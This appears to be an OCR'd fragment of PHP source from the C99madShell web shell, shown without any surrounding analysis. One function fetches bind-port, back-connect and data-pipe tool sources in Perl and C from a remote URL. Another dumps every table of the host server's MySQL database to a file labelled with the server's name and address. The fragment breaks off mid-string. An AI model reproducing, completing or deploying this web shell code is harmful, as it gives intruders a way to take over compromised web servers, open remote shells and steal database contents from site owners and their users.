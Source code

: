 if (!function_exists("c99getsource"))
{
function c99getsource($fn)
{
 global $c99sh_sourcesurl;
 $array = array(
  "c99sh_bindport.pl" =&gt; "c99sh_bindport_pl.txt",
  "c99sh_bindport.c" =&gt; "c99sh_bindport_c.txt",
  "c99sh_backconn.pl" =&gt; "c99sh_backconn_pl.txt",
  "c99sh_backconn.c" =&gt; "c99sh_backconn_c.txt",
  "c99sh_datapipe.pl" =&gt; "c99sh_datapipe_pl.txt",
  "c99sh_datapipe.c" =&gt; "c99sh_datapipe_c.txt",
 );
 $name = $array[$fn];
 if ($name) {return file_get_contents($c99sh_sourcesurl.$name);}
 else {return FALSE;}
}
}
if (!function_exists("mysql_dump"))
{
function mysql_dump($set)
{
 global $shver;
 $sock = $set["sock"];
 $db = $set["db"];
 $print = $set["print"];
 $nl2br = $set["nl2br"];
 $file = $set["file"];
 $add_drop = $set["add_drop"];
 $tabs = $set["tabs"];
 $onlytabs = $set["onlytabs"];
 $ret = array();
 $ret["err"] = array();
 if (!is_resource($sock)) {echo("Error: \$sock is not valid resource.");}
 if (empty($db)) {$db = "db";}
 if (empty($print)) {$print = 0;}
 if (empty($nl2br)) {$nl2br = 0;}
 if (empty($add_drop)) {$add_drop = TRUE;}
 if (empty($file))
 {
  $file = $tmpdir."dump_".getenv("SERVER_NAME")."_".$db."_".date("d-m-Y-H-i-s").".sql";
 }
 if (!is_array($tabs)) {$tabs = array();}
 if (empty($add_drop)) {$add_drop = TRUE;}
 if (sizeof($tabs) == 0)
 {
  // retrive tables-list
  $res = mysql_query("SHOW TABLES FROM ".$db, $sock);
  if (mysql_num_rows($res) &gt; 0) {while ($row = mysql_fetch_row($res)) {$tabs[] = $row[0];}}
 }
 $out = "# Dumped by C99madShell.SQL v. ".$shver."
# Home page: http://securityprobe.net
#
# Host settings:
# MySQL version: (".mysql_get_server_info().") running on ".getenv("SERVER_ADDR")." (".getenv("SERVER_NAME").")"."
# Date: ".date("d.m.Y H:i:s")."